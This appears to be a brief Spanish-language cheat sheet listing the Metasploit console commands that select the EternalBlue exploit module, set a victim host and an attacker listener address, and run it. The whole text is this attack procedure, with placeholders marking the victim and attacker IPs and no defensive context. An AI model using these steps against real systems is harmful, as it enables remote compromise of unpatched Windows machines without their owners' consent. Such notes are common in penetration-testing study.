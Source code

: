 # Metasploit
```bash
search eternalblue
```

```bash
use 0
```

```bash
set RHOST <"IP VICTIMA">
```

```bash
set LHOST <"IP ATACANTE">
```

```bash
run
```